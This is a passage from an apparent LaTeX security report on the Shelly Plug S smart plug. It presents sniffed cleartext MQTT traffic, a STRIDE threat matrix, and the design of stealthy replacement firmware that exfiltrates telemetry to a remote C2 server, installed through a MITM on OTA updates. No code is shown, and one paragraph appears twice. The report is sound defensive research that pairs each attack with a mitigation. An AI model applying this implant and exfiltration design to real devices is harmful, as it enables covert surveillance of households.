    
\includegraphics[width=0.8\linewidth]{Images/Fase1/MQTT2.png}
    \caption{Sniffed MQTT packet showing cumulative energy in plaintext}
    \label{fig:wireshark_energy}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{Images/Fase1/MQTT3.png}
    \caption{Sniffed MQTT packet showing the relay state command ("on") in plaintext}
    \label{fig:wireshark_state}
\end{figure}

\noindent Crucially, the factory firmware does not support MQTT over TLS (MQTTS) or mutual authentication (mTLS) with client certificates. This limitation is primarily due to the design choices of the original firmware, which prioritized lightweight protocols over transport security to minimize RAM consumption on the ESP8266. This protocol insecurity leaves the local communication channel entirely exposed to sniffing and unauthorized command injection, highlighting the need for the hardening countermeasures implemented in Phase 3.


\section{Threat Modeling}
Based on the physical and protocol analysis performed in this phase, the following STRIDE matrix maps the identified vulnerabilities, the potential exploitation vectors (demonstrated in Phase 2), and the proposed countermeasures implemented in Phase 3.

\begingroup
\footnotesize
\renewcommand{\arraystretch}{1.3}
\setlength{\tabcolsep}{4pt} % Riduce la spaziatura interna tra colonne per evitare sforamenti
\begin{longtable}{>{\raggedright\arraybackslash}p{0.12\textwidth} >{\raggedright\arraybackslash}p{0.22\textwidth} >{\raggedright\arraybackslash}p{0.29\textwidth} >{\raggedright\arraybackslash}p{0.29\textwidth}}
\caption{Threat Modeling and STRIDE Matrix for Shelly Plug S Gen 1} \label{tab:stride_matrix} \\
\toprule
\textbf{\color{darkblue}Category} & \textbf{\color{darkblue}Description} & \textbf{\color{darkblue}Shelly Gen1 Scenario (Fase 2)} & \textbf{\color{darkblue}Mitigation Strategy (Fase 3)} \\
\midrule
\endfirsthead

\multicolumn{4}{c}%
{{\bfseries \tablename\ \thetable{} -- Continued from previous page}} \\
\toprule
\textbf{\color{darkblue}Category} & \textbf{\color{darkblue}Description} & \textbf{\color{darkblue}Shelly Gen1 Scenario} & \textbf{\color{darkblue}Mitigation Strategy (Fase 3)} \\
\midrule
\endhead

\bottomrule
\endfoot

\bottomrule
\endlastfoot

\rowcolor{lightgray}
\textbf{S}poofing & Impersonating a client, broker, or update server. & [\textbf{Implemented}] MITM attack redirecting the device to a rogue OTA update server serving a fake manifest. & \textbf{[Implemented]} Mutual TLS (mTLS) with ECC certificates for broker identity; RSA signatures for firmware source validation. \\
\addlinespace
\textbf{T}ampering & Unauthorized modification of code or telemetry data. & [\textbf{Implemented}] Injecting custom Mongoose OS firmware via unsigned OTA binaries. & \textbf{[Implemented]} Secure OTA update verifying RSA-2048 / SHA-256 firmware signatures using BearSSL. \\
\addlinespace
\rowcolor{lightgray}
\textbf{R}epudiation & Inability to audit or trace actions and commands. & \textit{[Out of Scope]} Triggering relay actions via unauthenticated local HTTP or MQTT commands with no audit log. & \textit{[Out of Scope]} Logging unique client certificate CN/IDs at the Mosquitto broker level. \\
\addlinespace
\textbf{I}nformation Disc. & Eavesdropping or intercepting private data. & [\textbf{Implemented}] Sniffing cleartext MQTT topics on port 1883 to leak power, energy, and relay states. & \textbf{[Implemented]} MQTTS (MQTT over TLS 1.2, port 8883) with client-side ECC encryption. \\
\addlinespace
\rowcolor{lightgray}
\textbf{D}enial of Service & Overloading resources to disrupt service. & \textit{[Out of Scope]} Flooding unauthenticated local HTTP endpoints (/relay, /reboot) to crash the ESP8266. & \textit{[Out of Scope]} Dedicated IoT VLAN segmentation and network rate-limiting rules. \\
\addlinespace
\textbf{E}levation of Priv. & Gaining unauthorized physical or logical access. & [\textbf{Implemented}] Accessing PCB UART test points to execute an esptool.py flash memory dump. & \textit{[Theoretical]} Disabling ESP8266 UART RX/TX boot modes in code and blowing chip fuses. \\
\end{longtable}
\endgroup


\chapter{Phase 2: Implementation \& Injection of Malicious Firmware}

This chapter presents the Red Team simulation phase, in which a custom firmware variant was developed with the intent of demonstrating the real-world exploitability of the vulnerabilities identified in Phase~1. The firmware was designed to silently exfiltrate energy telemetry data to a remote Command and Control (C2) server, while maintaining full operational compatibility with the original Shelly Plug S hardware. To minimize the risk of detection, the custom firmware was specifically engineered to maintain strict behavioral and visual consistency with the official production software. By replicating the original device's standard operations and local interfaces, the implant achieves a high degree of stealthiness

\noindent Subsequently, a Man-in-the-Middle (MITM) attack was executed to remotely inject the unauthorized firmware onto the target device without requiring physical access.

\section{Development of the Malicious Firmware}
The malicious firmware was developed using the \textbf{Mongoose OS framework}, an open-source IoT operating system specifically designed for resource-constrained microcontrollers such as the ESP8266. Choosing Mongoose OS was primarily motivated by the need to match the original Shelly firmware's ecosystem. This choice ensured full compatibility and a well-structured bundle ready for OTA delivery, while also providing native support for the \texttt{mos} CLI build toolchain, a built-in OTA infrastructure, and robust HTTP/MQTT libraries that simplified the development of a full-featured replacement firmware.

\medskip
\noindent The project structure, shown in Figure~\ref{fig:redfw_structure}, follows the standard Mongoose OS layout: a \texttt{mos.yml} configuration manifest, a \texttt{src/} directory containing the application logic (\texttt{main.c}), and an \texttt{fs/} directory containing the embedded web interface (\texttt{index.html}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.35\linewidth]{Images/Fase2/strutturaRedfw.png}
    \caption{Mongoose OS project structure for the malicious firmware}
    \label{fig:redfw_structure}
\end{figure}

\noindent The build configuration is defined in \texttt{mos.yml} (Figure~\ref{fig:mos_yaml}), which specifies the target hardware parameters (2\,MB flash, 256\,KB filesystem), the required libraries (WiFi, MQTT, HTTP server, ADC, OTA), and the configuration schema. Crucially, the schema defines the MQTT broker address (\texttt{mqtt.server}) and the custom C2 server's UDP endpoint (\texttt{app.udp\_ip}:\texttt{app.udp\_port}) as independent parameters. This allows them to be configured to point to different targets; for instance, the MQTT broker can be mapped to the victim's local home automation server, while the UDP exfiltration points to the remote attacker-controlled server.


\noindent The build configuration is defined in \texttt{mos.yml} (Figure~\ref{fig:mos_yaml}), which specifies the target hardware parameters (2\,MB flash, 256\,KB filesystem), the required libraries (WiFi, MQTT, HTTP server, ADC, OTA), and the configuration schema. Lastly, the schema defines the MQTT broker address (\texttt{mqtt.server}) and the custom C2 server's UDP endpoint (\texttt{app.udp\_ip}:\texttt{app.udp\_port}). Although both communication channels share the same server IP in this experiment for setup simplicity, they represent independent logical paths. Specifically, the UDP C2 destination remains fixed, whereas the MQTT broker configuration can be modified via the local web UI to dynamically match the victim's environment.

\begin{figure}[H]
    \centering
